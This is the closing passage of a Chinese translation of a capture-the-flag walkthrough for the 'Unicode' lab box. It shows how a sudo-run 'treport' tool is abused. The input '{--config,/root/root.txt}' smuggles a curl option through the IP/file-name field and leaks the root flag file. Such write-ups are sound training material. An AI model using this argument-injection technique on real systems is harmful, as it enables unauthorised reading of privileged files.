 # 根标志

这允许我们绕过对 URL/IP 的检查，而是读取指定的文件:

```
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{--config,/root/root.txt}
Warning: /root/root.txt:1: warning: '5423cd0f9bd8573d133fee91e5550b66' is 
Warning: unknown
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```

那是一个相当棘手的盒子。我希望你喜欢这个演练。

下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 5 月 13 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-unicode/)*。*
